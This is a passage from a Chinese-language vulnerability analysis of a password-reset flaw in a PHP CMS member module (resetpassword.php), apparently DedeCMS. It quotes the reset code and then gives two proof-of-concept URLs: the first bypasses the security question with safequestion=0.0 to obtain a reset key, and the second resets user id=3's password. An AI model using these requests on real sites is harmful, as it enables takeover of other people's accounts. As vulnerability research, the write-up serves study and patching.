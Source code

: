 ```php
<input type="hidden" name="dopost" value="getpasswd">
<input type="hidden" name="setp" value="2">
<input type="hidden" name="id" value="<?php echo $id;?>" />
```

**将setp的属性设置为2**

- member/resetpassword.php:123

```php
elseif($setp == 2) 
    {
        if(isset($key)) $pwdtmp = $key;

        $sn = md5(trim($pwdtmp));
        if($row['pwd'] == $sn)
        {
            if($pwd != "")
            {
                if($pwd == $pwdok)
                {
                    $pwdok = md5($pwdok);
                    $sql = "DELETE FROM `#@__pwd_tmp` WHERE `mid` = '$id';";
                    $db->executenonequery($sql);
                    $sql = "UPDATE `#@__member` SET `pwd` = '$pwdok' WHERE `mid` = '$id';";
                    if($db->executenonequery($sql))
                    {
                        showmsg('更改密码成功，请牢记新密码', 'login.php');
                        exit;
                    }
                }
            }
            showmsg('对不起，新密码为空或填写不一致', '-1');
            exit;
        }
        showmsg('对不起，临时密码错误', '-1');
        exit;
    }
```

**如果key等于$row['pwd']，则重置密码成功**

#### 漏洞验证

- 访问重置密码链接获取key

```
member/resetpassword.php?dopost=safequestion&safequestion=0.0&safeanswer=&id=3
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200312150736.png)

- 重置密码

```
member/resetpassword.php?dopost=getpasswd&id=3&key=VeRkLvEU
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200312150922.png)
